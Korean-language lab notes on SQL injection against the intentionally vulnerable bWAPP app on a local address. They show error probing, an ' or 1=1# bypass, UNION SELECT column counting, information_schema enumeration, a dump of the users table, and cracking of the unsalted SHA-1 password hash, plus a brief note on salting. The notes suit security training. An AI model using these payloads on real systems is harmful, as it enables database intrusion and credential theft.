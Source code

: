 ## SQL - GET(search)

Get이라고하는 것은 주소창에 내용이 그대로 보인다. 

action=search → search를 의미한다. 

```c
http://192.168.56.101/bWAPP/sqli_1.php?title=man&action=search
```

[POST -search]

해당 정보들이 주소창에 보이지 않고 변수가 보이지 않는 방법이다. 

그래서 GET이 더 공격하기 쉽다. 

```c
http://192.168.56.101/bWAPP/sqli_6.php
```

### [1. SQL 인젝션 가능 여부 체크]

1) 검색에 ‘ 만 입력하기 (싱글 따옴표)

다음과 같은 SQL 오류(구문 오류) 발생 ⇒ 이것은 sql injection이 가능한 환경이라는 것을 의미 

여기서 %27는 ‘를 의미

[`http://192.168.56.101/bWAPP/sqli_1.php?title=%27&action=search`](http://192.168.56.101/bWAPP/sqli_1.php?title=%27&action=search)

```c
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1
```

`SELECT * FROM ___ WHERE TITLE=’ ____(검색 내용)___’`

이런 식으로 사용자 입력(검색 내용)을 받아서 DB에서 처리를 해줄 것이다. 

그렇다면 싱글 따옴표를 입력했을 때 다음과 같은 쿼리문이 나올 것이다. 

`SELECT * FROM ___ WHERE TITLE=’%27’`

항상의심을 해야 한다. 사용자의 입력에 문제가 있을 수 있다는 것을 고려해야 한다. 

### [2. SQL 인젝션을 통해 테이블 정보 확인 ]

[http://192.168.56.101/bWAPP/sqli_1.php?title='+or+1%3D1%23&action=search](http://192.168.56.101/bWAPP/sqli_1.php?title=%27+or+1%3D1%23&action=search)

SELECT * FROM ___ WHERE TITLE=’ ***‘ or 1=1#*** ’

**‘ or 1=1#**을 입력하게 되면 처음 ‘은 ‘’로 인식하게 되므로 false가 되고 or 다음에 1=1는 true이므로 통과가 된다. 그리고 #는 주석 처리이므로 마지막에 있는 ‘를 없애주는 역할을 한다. 

결과 = 모든 데이터베이스의 정보들을 확인 가능

### [3. 기존 SQL 명령어 컬럼 수 추정]

‘ union select all 1#

union = 새로운 쿼리문을 주겠다. 

몇개의 컬럼이 있는지 모르므로 모든 것을 가져오되, (select all) 

→ 그 중 하나의 컬럼을 가져오겠다 1

하지만 오류가 나왔다. 

```c
The used SELECT statements have a different number of columns
```

원인 = 원래의 데이터베이스에 있는 컬럼의 수는 적어도 5개 이상일 텐데 우리는 그 전체 데이터 베이스와 컬럼 1개를 합치라고 명령했기 때문에 갯수가 맞지 않아서 오류 메시지를 얻음 

즉, 컬럼 수가 틀렸다는 것을 말한 것임 

일단 1이라고 했는데 오류 메시지가 나왔기 때문에 일단 1개의 칼럼만 가지고 있는 것은 아니라는 것을 알 수 있음

### [4. 테이블 컬럼 수 확인을 위해 사용]

' union select all 1, 2#

' union select all 1, 2, 3#

…

' union select all 1, 2, 3,4 ,5, 6, 7# → 성공 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a7b3b480-fdf7-4a32-a910-934088808f86/Untitled.png)

밑에 있는 2, 3, 5, 4는 해당 컬럼에서 가져왔다는 것을 의미하며 1, 4, 6, 7칼럼은 가져오지 못했다는 것을 의미한다. 

### [MySQL의 버전 정보를 알 수 있다. ]

@@version 이라는 명령어 사용 (mysql 의 버전 정보를 가져오는 명령어 )

`' union select all 1, @@version, 3, 4, 5, 6, 7#`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/41dcac01-ffa9-4694-b812-ee5e5a4b24a0/Untitled.png)

2칼럼의 버전 정보를 가져올 수 있다. → 시스템 내부에서 어떤 버전의 명령어를 써야하는지 알 수 있음 

### [현재 사용자 아이디 확인 ]

`' union select all 1, user(), 3, 4, 5, 6, 7#`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e207210e-c93f-4789-8b6e-b30fff0c3790/Untitled.png)

### [데이터 베이스 명 확인]

database()

`' union select all 1, user(), 3, 4, database(), 6, 7#`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8eadeabc-ad5a-4175-97df-4cf90be6c49c/Untitled.png)

bWAPP이라는 것을 알 수 있었음 

### [테이블 명]

데이터베이스 내에서 사용하는 전체 테이블 출력 

`' union select all 1, table_name, 3, 4, 5, 6, 7 from information_schema.tables#`

mysql 에서 전체적으로 관리하고 있는 테이블들에는 어떤 것들이 있는지에 대한 정보들 표현

테이블 내용 출력 

결과 = users 테이블 → 유저 정보들이 있을 것으로 예상

### [users 테이블에 있는 모든 컬럼들을 가져오기]

`' union select all 1, column_name, 3, 4, 5, 6, 7 from information_schema.columns where table_name='users'#`

결과 = id, password, login, email 등이 있다. 

### [users 테이블 중 일부 정보 가져오기]

`' union select all 1,id,login, email, password, 6, 7 from users#`

id = A.I.M. , bee

login = 6885858486f31043e5839c735d99457f045affd0, 6885858486f31043e5839c735d99457f045affd0

[https://crackstation.net/](https://crackstation.net/)(rainbow table로 해시값 도출)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6c55f853-5abf-4e17-bea2-4e5f36e54152/Untitled.png)

타입이 sha1이라는 것을 알 수 있다. 

단순 해쉬값으로 저장했다. (salt값을 넣어서 해쉬를 해야 하는데 그냥 했기 때문에 바로 정보를 알 수 있다. ) 

각 유저들 마다 다른 salt값을 넣어야 더 안전하다 (ex) 0000 + pw

같은 salt값을 넣으면 해시값이면 같은 값이라는 것을 알 수 있으므로 보다 좀 더 쉽게 유추할 수 있다.  

그래서 0000+id+pw 이런 식으로 다르게 salt값을 적용해야 할 것이다.
